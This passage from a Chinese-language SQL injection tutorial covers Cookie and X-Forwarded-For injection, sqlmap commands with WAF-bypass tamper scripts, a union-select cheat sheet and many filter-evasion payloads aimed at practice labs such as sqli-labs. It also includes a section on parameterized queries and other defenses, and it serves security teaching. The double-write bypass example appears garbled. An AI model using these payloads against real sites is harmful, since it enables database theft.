

### 4.9 Cookie注入

**原理**：从Cookie处获取的数据直接带入SQL查询导致的注入漏洞。

**实战示例（sqli-labs第20关）**：

```bash
# Cookie中注入
Cookie: uname=admin888' union select 1,(select database()),3--+;
```



### 4.10 Base64编码注入

**原理**：Base64可以将任意二进制（文本也是二进制）无损转换为可打印字符。网站如果以Base64接受用户提交的数据，那么防火墙之类的工具中途将无法过滤，解码后在最终带入SQL之前并没有再次过滤，就导致了注入绕过。

### 4.11 XFF注入

**原理**：HTTP请求头里面会携带大量的信息，这些信息也会被带入到数据库查询处理。如果对请求头的内容没有过滤，就会导致SQL注入。

**实战示例（bluecms靶场）**：

```bash
# 对头部的Client-IP内容没做过滤
X-Forwarded-For: 127.0.0.1' union select 1,database(),3--+
```

---

## 5. SQLMap工具

### 5.1 基本用法

```bash
# GET注入
sqlmap -u "http://target/page?id=1"

# POST注入（将请求保存到txt文件，用*标注注入点）
sqlmap -r request.txt

# 批量自动化模式
sqlmap -u "http://target/page?id=1" --batch
```

### 5.2 常用参数

```bash
# 获取基本信息
--batch --current-user --current-db

# 获取表名
--batch -D '数据库名' --tables

# 获取列名
--batch -D '数据库名' -T '表名' --columns

# 获取数据
--batch -D '数据库名' -T '表名' -C '列1,列2' --dump

# 获取所有数据库
--batch --dbs

# 获取所有数据
--batch --dump-all
```

### 5.3 高级用法

```bash
# 指定Cookie注入
sqlmap -u "http://target/page" --cookie="user=*"

# 指定User-Agent注入
sqlmap -u "http://target/page" --user-agent="*"

# 绕过WAF
sqlmap -u "http://target/page" --tamper=space2comment

# 常用tamper脚本
--tamper=space2comment      # 空格转注释
--tamper=equaltolike        # =转like
--tamper=greatest           # >转greatest
--tamper=charencode         # 字符编码
```

---

## 6. SQL注入防御

### 6.1 参数化查询（预编译语句）

**最有效的防御方式**，将SQL语句结构与数据分离：

```php
// PHP - PDO
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = :username');
$stmt->execute(['username' => $username]);

// PHP - MySQLi
$stmt = $mysqli->prepare('SELECT * FROM users WHERE username = ?');
$stmt->bind_param('s', $username);
$stmt->execute();

// Java - PreparedStatement
String sql = "SELECT * FROM users WHERE username = ?";
PreparedStatement stmt = conn.prepareStatement(sql);
stmt.setString(1, username);
```

### 6.2 输入过滤与验证

```php
// 类型检查
if (!is_numeric($id)) {
    die('Invalid input');
}

// 黑名单过滤（不推荐，容易绕过）
$username = str_replace("'", '', $username);

// 白名单验证
$allowed_chars = '/^[a-zA-Z0-9_]+$/';
if (!preg_match($allowed_chars, $username)) {
    die('Invalid username');
}
```

### 6.3 最小权限原则

```sql
-- 限制数据库用户权限
GRANT SELECT ON database.* TO 'app_user'@'localhost';
-- 不授予INSERT/UPDATE/DELETE/FILE等危险权限
```

### 6.4 其他防御措施

- 使用`addslashes()`、`mysqli_real_escape_string()`转义特殊字符
- 开启`magic_quotes_gpc`（已废弃，不推荐）
- 使用WAF（Web应用防火墙）
- 定期更新数据库版本
- 错误信息不要返回给用户（生产环境关闭`display_errors`）

---

## 7. 实战靶场推荐

| 靶场 | 难度 | 说明 |
|-----|-----|------|
| DVWA | 入门 | 基础漏洞练习，含SQL注入 |
| sqli-labs | 入门-进阶 | 75关，系统学习SQL注入 |
| pikachu | 入门 | 综合漏洞平台 |
| Upload-Labs | 入门 | 文件上传漏洞 |
| xycms | 进阶 | CMS漏洞挖掘 |
| WebGoat | 进阶 | OWASP官方训练平台 |

---

## 8. 速查表

### 8.1 注入判断速查

```bash
# 判断注入类型
' → 报错
" → 报错
' and '1'='1 → 正常
' and '1'='2 → 异常
and 1=1 → 正常
and 1=2 → 异常
```

### 8.2 Union注入模板

```bash
# 通用模板
' union select 1,2,3,...,N--+
# N为列数

# 获取数据库名
' union select 1,2,database(),4,...--+

# 获取表名
' union select 1,2,group_concat(table_name),4,... 
from information_schema.tables where table_schema='数据库名'--+

# 获取列名
' union select 1,2,group_concat(column_name),4,... 
from information_schema.columns where table_name='表名'--+

# 获取数据
' union select 1,2,concat(column1,0x3a,column2),4,... 
from 表名 limit 0,1--+
```

### 8.3 常用编码

```
空格：%20 或 %09(Tab) 或 /**/
单引号：%27
双引号：%22
井号：%23
换行：%0a
```

---

## 9. SQL注入绕过

SQL注入绕过技术已经是一个老生常谈的内容了，防注入可以使用某些云waf加速乐等安全产品，这些产品会自带waf属性拦截和抵御SQL注入，也有一些产品会在服务器里安装软件，例如iis安全狗、d盾、还有就是在程序里对输入参数进行过滤和拦截。

### 9.1 or and xor not绕过

目前主流的waf都会对常见的SQL注入检测语句进行拦截，可以使用以下字符代替：

| 指令 | 字符 |
| ---- | ---- |
| and | && |
| or | \|\| |
| not | ! |
| xor | \| |

**示例**：

```sql
mysql> select * from users where id=1 and 1=1;
mysql> select * from users where id=1 && 1=1;
mysql> select * from users where id=1 && 2=1+1;
```

### 9.2 空格字符绕过

如果出现空格被拦截的情况，就需要使用空格字符绕过：

| 编码 | 空格字符 |
| ---- | -------- |
| %09 | TAB键(水平制表符) |
| %0a | 新的一行 |
| %0c | 新的一页 |
| %0d | return功能 |
| %0b | TAB键(垂直制表符) |
| %a0 | 空格 |

**注释绕过**：

SQL语句支持注释来充当空格，注释的格式为`/*注释内容*/`

**MySQL版本注释**：

```sql
/*!50000select*/  -- 表示5.00.00版本以上的mysql才会执行这个代码
```

**括号绕过空格**：

```sql
?id=1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),1)||'1
```

### 9.3 大小写绕过

如果过滤代码正则匹配模式未忽略大小写，可以使用大小写绕过：

```sql
http://d16.s.iproute.cn/Less-27/?id=0'||substr((sElect(group_concat(username))from(users)),1,1)='D'||'0

http://d16.s.iproute.cn/Less-27/?id=1'||substr((updatexml(1,concat(0x7e,(SelEct(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),0x7e),1)),1,1)='D'||'1
```

### 9.4 浮点数绕过

sql语句的一个特性，在浮点数后面跟着union可以不加空格，并且1.0=1：

```sql
http://d16.s.iproute.cn/Less-27/?id=999.0'and(updatexml(1,concat(0x7e,database(),0x7e),1))||'1
```

### 9.5 双写绕过

如果过滤是将关键字替换为空字符串，可以使用双写绕过：

```sql
?id=1'unionselect 1,2,3--
-- 替换后变成 unionselect
```

### 9.6 内联注释绕过

MySQL中可以使用内联注释来绕过WAF：

```sql
/*!union*/ select 1,2,3
/*!50000union*/ select 1,2,3
```

### 9.7 等号绕过

如果等号被过滤，可以使用以下方式：

```sql
-- 使用like
?id=1' like 1#

-- 使用regexp
?id=1' regexp '^1'#

-- 使用between
?id=1' between 1 and 2#

-- 使用in
?id=1' in (1)#
```

### 9.9 逗号绕过

如果逗号被过滤，可以使用以下方式：

```sql
-- 使用from
?id=1' union select * from (select 1)a join (select 2)b join (select 3)c#

-- 使用offset
?id=1' union select 1,2,3 limit 0 offset 1#
```
